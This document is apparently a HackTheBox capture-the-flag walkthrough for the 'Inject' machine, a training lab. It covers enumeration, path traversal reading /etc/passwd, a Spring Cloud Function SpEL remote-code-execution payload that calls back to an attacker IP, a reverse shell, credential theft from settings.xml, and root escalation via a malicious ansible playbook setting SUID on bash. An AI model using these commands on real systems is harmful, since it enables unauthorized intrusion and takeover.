 # HackTheBox - Inject
## NMAP

```
Nmap scan report for 10.10.11.204
Host is up (0.14s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Scanning the machine, we have two ports out which port 8080 is interesting to us as there's a web server running 

## PORT 8080

<img src="https://i.imgur.com/7MuE1oR.png"/>

There's an option for login and signup but login doesn't take you anywhere so visting signup page

<img src="https://i.imgur.com/LyRBKff.png"/>

There is however an option to upload files on the home page

<img src="https://i.imgur.com/tsess8E.png"/>

<img src="https://i.imgur.com/Ttxcowc.png"/>

On trying to upload file normal txt file, it only shows that image file can be uploaded

<img src="https://i.imgur.com/G7qThvN.png"/>

## Foothold 

I got exahausted for trying to upload php files but it didn't work and it was a huge rabbit hole for me but if we notice how it's fetching the uploaded files

<img src="https://i.imgur.com/FTOWXas.png"/>

It's using a GET parameter for fetching the files, trying for LFI, it didn't showed any results on the browser but if we send a request from `curl` it will show that it's indeed vulnerable

<img src="https://i.imgur.com/o0R9nMm.png"/>

```
curl 'http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd'
```

<img src="https://i.imgur.com/T82GrgP.png"/>

We can also see what files are there in the web root's directory by just traversing upto that path

```
curl 'http://10.10.11.204:8080/show_image?img=../../../'
```

<img src="https://i.imgur.com/bMyV4xC.png"/>

We can read `pom.xml` file which tells about the infromation of the project 

<img src="https://i.imgur.com/yrkKrZx.png"/>

<img src="https://i.imgur.com/mRVCfFu.png"/>

Here we can find `Spring Framework cloud` version `3.2.2` being used, on searching for vulnerabilities, spring cloud function is vulnerable to remote code execution by `spring.cloud.function.routing-expression` paramter and SpEL (Spring Expression Language) to execute system commands on the machine

```bash
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.21")' --data-raw 'data'
```

<img src="https://i.imgur.com/TLcVmJT.png"/>

To get a reverse shell, we can add our payload in a shell script, upload it and execute it on the server

<img src="https://i.imgur.com/EEELcOp.png"/>
<img src="https://i.imgur.com/2XKX8px.png"/>

<img src="https://i.imgur.com/xdsCCVz.png"/>

<img src="https://i.imgur.com/nWDyOMR.png"/>

Stabilizing the shell with python

<img src="https://i.imgur.com/pCyTW8u.png"/>

## Privilege Escalation (Phil)

We can escalate to phil user by getting his password from `.m2` directory in `settings.xml` file

<img src="https://i.imgur.com/yjwm7PA.png"/>

Checking in what groups this user is in

<img src="https://i.imgur.com/A6zxqiv.png"/>

With `find` we can look for files or folders on which this group has access

<img src="https://i.imgur.com/4vjSw29.png"/>

Running `pspy` we can run see `ansible-playbook` being ran as root user and executing the yaml file

<img src="https://i.imgur.com/NOpyWaj.png"/>

## Privilege Escalation (root)

We can escalate our privileges to root by `shell` paramter in our ansible yaml file to execute commands as root user `/opt/automation/tasks`

```bash
echo '[{hosts: localhost, tasks: [shell: 'chmod +s /bin/bash' ]}]' > playbook_2.yml
```

<img src="https://i.imgur.com/mMRRKia.png"/>

With `chmod +s /bin/bash` we can make bash a SUID meaning it will be executed as root on running it with `-p`

<img src="https://i.imgur.com/0xWIys3.png"/>



## References

- https://github.com/me2nuk/CVE-2022-22963
- https://docs.ansible.com/ansible/2.9/modules/shell_module.html

